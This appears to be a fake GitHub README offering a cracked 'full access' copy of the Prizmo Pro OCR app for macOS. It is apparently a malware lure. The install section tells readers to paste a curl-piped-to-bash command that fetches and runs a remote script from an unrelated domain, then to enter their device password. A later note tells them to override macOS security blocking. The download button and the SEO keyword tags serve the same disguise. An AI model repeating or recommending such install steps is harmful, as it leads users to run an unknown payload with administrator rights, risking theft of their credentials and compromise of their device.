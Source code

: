 <p align="center">
  <img src="https://i.ibb.co/W4QgD2sP/1608731887-prizmo.png" width="250" alt="Prizmo Pro macOS Banner" />
</p>

<h1 align="center">Prizmo Pro for macOS</h1>

<p align="center">
  📄 OCR and scanning powerhouse. Convert images, PDFs, and documents into searchable, editable text in over 20 languages.  
  <br><br>
  ✅ Works Offline – Apple Silicon Ready  
  ✅ Supports macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/256" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20PRIZMO%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Prizmo Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/gM91DdbQ/1608732495-1.png" alt="Prizmo OCR UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Prizmo Pro for macOS?

**Prizmo Pro** is a macOS-native OCR (Optical Character Recognition) and scanning utility designed for professionals, students, and anyone working with physical documents. Scan paper documents, import PDFs or photos, and instantly convert them into fully editable and searchable text.

Prizmo Pro supports over 20 languages, offers voice output, and works offline — making it ideal for personal document archiving, form digitization, or quick content extraction from snapshots.

---

## ✅ Why Choose Prizmo Pro?

- 🔍 **Real-Time OCR for Images & PDFs**  
- 🗂️ **Batch Scan and Document Management**  
- 🌐 **Multilingual OCR (20+ Languages)**  
- 📤 **Export to TXT, PDF, RTF, DOCX & More**  
- 🧠 **Text-to-Speech Support Built-In**  
- 🧾 **Smart Layout Detection for Complex Docs**  
- 🍎 **Native M1/M2/M3 Apple Silicon Support**  
- 🔒 **All Processing Happens Locally**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/4nFb9vZV/1608732544-2.png" alt="Prizmo Batch Document Scanner Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/d0BCymQF/1608732581-3.png" alt="Multilingual OCR Settings Panel" />
</p>

---

## 🚀 Key Features

- Optical Character Recognition (OCR)  
- Scanner and camera input  
- Batch document processing  
- Built-in text-to-speech  
- Advanced layout analysis  
- Works with PDFs and images  
- Offline processing, no cloud required  
- Export to multiple editable formats

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Prizmo Pro manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/OCR-Image+PDF+Text+Export-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Prizmo Pro – Scan. Convert. Archive.

Thanks for using **Prizmo Pro for macOS**.  
Digitize paper into searchable files — instantly and securely.

---

## 🧭 Usage Context

Prizmo Pro is fully offline and private.  
Ideal for professionals, researchers, students, or remote workers.  
Use it for digitizing contracts, notes, invoices, or books — no cloud needed.

---

## 🔍 Tags

```text
prizmo pro mac download, ocr pdf mac editable text, scan to searchable pdf macos, convert image to text mac offline, best mac ocr app for documents, prizmo ocr for apple silicon, text recognition software macbook, batch document scanning utility mac, multilingual ocr app for mac m1 m2, extract text from scanned files mac, prizmo export text pdf docx macos, mac document digitization software, secure ocr tool for macos sonoma, image to editable document app mac, prizmo pro offline ocr full version
